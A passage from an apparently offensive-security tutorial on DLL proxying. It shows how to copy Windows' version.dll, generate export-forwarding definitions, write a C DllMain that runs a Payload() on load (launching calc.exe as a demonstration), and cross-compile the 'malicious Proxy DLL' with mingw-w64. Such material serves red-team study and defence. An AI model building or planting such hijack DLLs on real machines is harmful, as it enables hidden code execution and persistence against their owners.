 Copy the legitimate one from `C:\Windows\SysWOW64\version.dll` to
the Linux host as `version_orig.dll`.

Generating the `version.def` file containing the export
redirections by the Python script:

```
gen_def.py version_orig.dll > version.def
```

Here is (version.c)[./version.c] adding an example `Payload()`
launching `calc.exe` to the above template:

```c
#include <processthreadsapi.h>
#include <memoryapi.h>

void Payload()
{
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  
  char cmd[] = "calc.exe";
  
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));

  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
  switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
      Payload();
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    case DLL_PROCESS_DETACH:
      break;
    }
  return TRUE;
}
```

Cross-compiling and linking the malicious Proxy DLL using mingw-w64:

```
i686-w64-mingw32-gcc -shared -o version.dll version.c version.def -s
```
